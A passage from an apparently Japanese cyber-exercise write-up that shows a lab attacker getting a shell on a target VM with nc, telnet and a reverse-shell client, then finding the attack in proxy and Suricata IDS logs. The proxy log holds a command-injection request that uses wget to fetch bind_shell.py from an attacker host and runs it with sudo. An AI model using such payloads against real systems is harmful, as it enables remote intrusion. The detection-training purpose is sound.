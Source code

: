 2. ncまたはtelnetを利用して、Attacker OSからTarget OSに接続し、Target OSのシェルを取得する。  <br>
Target OSからAttacker OSへの接続は`nodejs reverseShellClient.js -i 192.168.33.20`で行った。  <br>
以下はBind ShellでTarget OSのシェルを取得した際のTerminalのスクリーンショット。  <br>

* ncを使用した場合

<img src="https://github.com/CyExc/CyExc/blob/master/2017/ex2/images/nc.png" width=400 title="ncスクリーンショット">

* telnetを使用した場合

<img src="https://github.com/CyExc/CyExc/blob/master/2017/ex2/images/telnet.png" width=400 title="telnetスクリーンショット">

### proxyサーバログの検知
proxyサーバのログは`vagrant@www:~/apps$ sudo docker-compose logs | grep proxy > proxy.log`で取得した。

[20/Jan/2018:14:09:20 +0000] **"GET /getPage?host=8.8.8.8%3Bwget+http%3A%2F%2Fattacker.cyexc-attacker%3A8081%2Fbind_shell.py%3Bchmod+700+bind_shell.py HTTP/1.1"** 200 842 **"ht&#8203;tp://target.cyexc-target/getPage?host=8.8.8.8%3Bsudo+python+bind_shell.py"** "Mozilla/5.0 (Macintosh; Intel Mac OS X 10.13; rv:57.0) Gecko/20100101 Firefox/57.0" "-"

URLエンコードすると、不正なOSコマンドを含むリクエストがわかる。

``
vagrant@target:~$ echo '/getPage?host=8.8.8.8%3Bwget+http%3A%2F%2Fattacker.cyexc-attacker%3A8081%2Fbind_shell.py%3Bchmod+700+bind_shell.py HTTP/1.1" 200 842 "http://target.cyexc-target/getPage?host=8.8.8.8%3Bsudo+python+bind_shell.py"' | nkf -w --url-input
``

**/getPage?host=8.8.8.8;wget+ht&#8203;tp://attacker.cyexc-attacker:8081/bind_shell.py;chmod+700+bind_shell.py HTTP/1.1" 200 842 "ht&#8203;tp://target.cyexc-target/getPage?host=8.8.8.8;sudo+python+bind_shell.py"**

取得したログはこちら＠[proxy.log](https://github.com/CyExc/CyExc/blob/master/2017/ex2/logs/proxy.log)

### IDSログの検知
IDSのログは`vagrant@www:~/apps$ cp /var/log/suricata/http.log .`で取得した。

* 不審なTCPを受信  <br>
01/20/2018-15:23:29.690006  [**] [1:2010937:2] ET POLICY Suspicious inbound to mySQL port 3306 [**] [Classification: Potentially Bad Traffic] [Priority: 2] {TCP} **192.168.33.20**:50426 -> **192.168.33.10**:3306  <br>
01/20/2018-15:23:29.761741  [**] [1:2010936:2] ET POLICY Suspicious inbound to Oracle SQL port 1521 [**] [Classification: Potentially Bad Traffic] [Priority: 2] {TCP} **192.168.33.20**:50426 -> **192.168.33.10**:1521  <br>

* ポートスキャンを受信  <br>
01/20/2018-15:23:29.762176  [**] [1:2002911:6] ET SCAN Potential VNC Scan 5900-5920 [**] [Classification: Attempted Information Leak] [Priority: 2] {TCP} **192.168.33.20**:50426 -> **192.168.33.10**:5903  <br>
01/20/2018-15:23:29.769568  [**] [1:2010939:2] ET POLICY Suspicious inbound to PostgreSQL port 5432 [**] [Classification: Potentially Bad Traffic] [Priority: 2] {TCP} **192.168.33.20**:50426 -> **192.168.33.10**:5432  <br>

取得したログはこちら@[fast.log](https://github.com/CyExc/CyExc/blob/master/2017/ex2/logs/fast.log)
